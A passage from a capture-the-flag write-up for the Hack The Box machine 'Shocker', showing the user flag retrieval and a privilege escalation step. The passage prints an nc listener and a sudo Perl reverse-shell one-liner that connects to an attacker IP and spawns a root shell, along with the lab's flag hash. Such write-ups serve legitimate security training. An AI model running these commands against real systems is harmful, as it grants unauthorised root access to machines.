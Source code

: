- Next, we'll search for the user flag.

```bash 
helly@Shocker:/usr/lib/cgi-bin$ ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$ pwd
/usr/lib/cgi-bin
shelly@Shocker:/usr/lib/cgi-bin$ cd ~/
shelly@Shocker:/home/shelly$ ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt 
448313be33aca32fed7594add17a8beb
```

user flag: **`448313be33aca32fed7594add17a8beb`**

## Privilege Escalation

- Next, we'll focus on privilege escalation to gain root-level access.

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

- It appears we can run perl with root privileges.
- This allows us to either spawn a root shell or execute a reverse shell as root.
- In this case, we'll attempt to gain a reverse shell.
- First, set up a listener on the attack box on port 4321:

```bash 
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ nc -lnvp 4321
Listening on 0.0.0.0 4321

```

- Now, let's execute the reverse shell command on the victim machine.

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.10";$p=4321;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![alt text](../assets/img/Machines/Shocker/RS-root.png)
